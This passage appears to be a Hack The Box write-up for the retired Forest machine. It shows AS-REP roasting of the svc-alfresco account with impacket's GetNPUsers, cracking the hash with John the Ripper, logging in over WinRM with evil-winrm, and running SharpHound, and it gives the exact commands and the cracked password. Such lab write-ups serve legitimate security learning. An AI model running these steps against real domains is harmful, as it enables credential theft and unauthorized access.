 sebastien
lucinda
svc-alfresco
andy
mark
muzec
cybery
jelly
sheesh
santi
```

If Kerberos pre-authentication is disabled on any of the above accounts, we can use the GetNPUsers impacket script to send a request for authentication KDC which will then return a TGT that is encrypted with the user’s password.

`GetNPUsers.py -dc-ip htb.local htb.local/svc-alfresco -no-pass`

![image](https://user-images.githubusercontent.com/69868171/125165218-f6ab6c80-e18d-11eb-8097-58ce4a097dff.png)


Now that we have the user hash let crack it using `John The Ripper` tools.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.10.161]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2021-07-10 12:02) 0.1639g/s 669796p/s 669796c/s 669796C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Boom we have the password `s3rvice` now let try using it on WinRM port with `evil-winrm` .

`evil-winrm -i htb.local -u svc-alfresco -p 's3rvice'`

![image](https://user-images.githubusercontent.com/69868171/125165793-733f4a80-e190-11eb-9d8c-2bbd6c4c5c1d.png)

We have `user.txt` cool right.


### System / Administrator

Running `winPEAS` give a bunch of output so i decided to download `SharpHound.exe` and upload it on the target.

![image](https://user-images.githubusercontent.com/69868171/125166147-2a889100-e192-11eb-9227-f3b578e11a1e.png)

Now let run the program.

```
./SharpHound.exe
```

![image](https://user-images.githubusercontent.com/69868171/125166310-f2ce1900-e192-11eb-8bc1-2b512a0046e0.png)
```